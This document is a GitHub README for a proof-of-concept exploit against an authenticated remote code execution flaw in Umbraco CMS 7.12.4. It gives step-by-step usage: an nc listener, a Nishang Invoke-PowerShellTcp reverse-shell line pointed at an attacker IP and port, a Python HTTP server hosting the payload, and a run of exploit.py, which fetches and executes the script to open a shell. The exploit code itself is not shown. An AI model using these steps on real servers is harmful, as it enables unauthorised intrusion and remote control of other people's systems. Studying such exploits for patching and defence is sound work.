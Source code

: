 # Umbraco CMS 7.12.4 RCE PoC / Reverse Shell

## Overview
This repository contains a Proof-of-Concept (PoC) exploit for an authenticated Remote Code Execution (RCE) vulnerability in Umbraco CMS 7.12.4. 

This exploit, inspired by the original PoC (https://www.exploit-db.com/exploits/46153), leverages a vulnerable XSLT processor to execute arbitrary commands on the server via authenticated access.

The provided script has been modified to download and execute a PowerShell script, such as Nishang's Invoke-PowerShellTcp.ps1 (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), which spawns a reverse shell.

## Requirements
Step 1: Clone the Repository

Step 2: Install Dependencies and ensure you have Python 3 installed:
```
pip install requests beautifulsoup4
```

## Usage
Step 1: Open a listening port. For example:
```
nc -vlnp 9090
```

Step 2: Edit the bottom line of the Nishang Invoke-PowerShellTcp.ps1 script to reflect your attacking machine's IP address and listening port. For example:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.12.6 -Port 9090
```

Step 3: Start a simple HTTP server to host the Nishang script in the same directory where Invoke-PowerShellTcp.ps1 is located. For example:
```
python3 -m http.server 80
```
Step 4: Modify lines 30, 35, 36, 37 in exploit.py accordingly to match your setup (i.e., http server address, login, password, host)

Step 5: Run exploit.py

## Reference
Original POC: https://www.exploit-db.com/exploits/46153

nishang: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
